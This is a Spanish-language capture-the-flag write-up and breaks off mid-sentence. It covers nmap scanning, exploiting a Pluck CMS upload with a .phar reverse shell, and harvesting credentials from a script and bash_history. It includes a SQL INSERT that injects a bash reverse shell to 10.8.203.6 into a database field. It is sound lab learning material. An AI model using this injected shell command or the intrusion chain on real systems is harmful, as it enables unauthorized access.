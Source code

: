 ### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.87 seconds
```
### ports: 22/ssh - 80/http

### empezamos enumerando el puerto 80
![[Pasted image 20231121122855.png]]
en este caso parece que no tenemos mucho
### Fuzzing con gobuster
![[Pasted image 20231121123528.png]]
### tenemos un directorio llamado app. en el que encontramos una carpeta llamada pluck
![[Pasted image 20231121123646.png]]
### nos lleva a lo que parece ser la pagina principal
![[Pasted image 20231121123850.png]]
### aquí podemos enumerar el framework en el que esta echo la pagina y también un usuario admin
### si entramos en admin nos dirige a una pagina donde podremos logearnos pero aun no tenemos credenciales. lo que si podemos conseguir es lo que parece ser la version del framework y este lo podemos usar para buscar exploit que nos ayuden a entrar en la pagina
![[Pasted image 20231121124556.png]]
### despues de una busqueda en internet hemos encontrado un script que no funciona pero leyendo el codigo hemos descubierto que la clave que utiliza para ingresar a la pagina es password
### enumerando todos las rutas de la pagina parece que tenemos un apartado que nos permite subir archivos
![[Pasted image 20231121134946.png]]
### intentaremos subir un archivo que contenga una revershell 
### despues de hacer un monton de pruebas parece que la pagina agrega .txt a cada archivo que subimos asi que intentamos baypassar esto probando muchas opciones y phar nos ha funcionado
![[Pasted image 20231121145707.png]]
### nos ponemos a la escucha y recibimos nuestra shell
![[Pasted image 20231121145905.png]]
### Despues de hacer tratamiento de tty vamos al directorio /home
![[Pasted image 20231121151554.png]]
### dentro del directorio /home tenemos tres usuarios 
```python
	Username: death
	
	username: lucien
	
	username morpheus
```

### en este caso primero vamos a intentar enumerar al usuario morpheus, donde podemos ver la flag pero no tenemos permisos. y tambien tenemos un archivo restore.py muy interesante

![[Pasted image 20231121152552.png]]
### si hacemos un cat al archivo restore.py no tenemos mucha informacion asi que iremos por otro usuario

![[Pasted image 20231121153245.png]]

### despues de una larga busqueda e intentando muchisimas cosas entre ellas pspy64 el cual no se puede ejecutar debido a un archivo en el sistema que lo impide hemos encontrado esto:
![[Pasted image 20231121162834.png]]
### en el directorio opt existe un archivo llamado test.py y haciendo un cat podemos ver que al parecer contiene la contraseña del usuario lucien 

![[Pasted image 20231121163324.png]]
### efectivamente el archivo test.py contenia las credenciales de lucien
### hacemos cat al archivo getDreams.py
![[Pasted image 20231121163711.png]]
### obtenemos información sobre una base de datos mysql. este archivo parese mostrarnos lo que esta alojado en la base de datos. esto es muy importante ya que podremos usarlo mas adelante
### vamos a intentar buscar el bash_history del usuario lucien para intentar recopilar mas informacion
![[Pasted image 20231121172038.png]]
### genial. optenemos informacion valiosa. al parecer lucien se ha conectado en el pasado a la base de datos usando las credenciales que quedaron almacenadas en el bash_history. vamos a aprovechar esto para conectarnos a la base de datos y ver que tipo de informacion podemos sacar...
![[Pasted image 20231121181702.png]]
### vamos a mirar en toda la base de datos
![[Pasted image 20231121212309.png]]
### nos aprovecharemos del archivo que mencionamos anteriormente el cual hace un llamado de todo lo que esta en la base de datos e intentaremos inyectar una shell a la base de datos para que cuando ejecutemos el archivo con suerte esto nos envie una shell
### vamos a inyectar codigo a la base de datos

```python
	INSERT into dreams (dreamer,dream) VALUE ("Gamuke","; bash -c 'bash -i >& /dev/tcp/10.8.203.6/9001 0>&1'");
```

![[Pasted image 20231121214156.png]]

### tenemos nuestro codigo malicioso inyectado en la base de datos asi que vamos a ejecutar el archvo.
![[Pasted image 20231121214610.png]]
### logramos tener conexion. dentro de este usuario hacemos cat al archivo get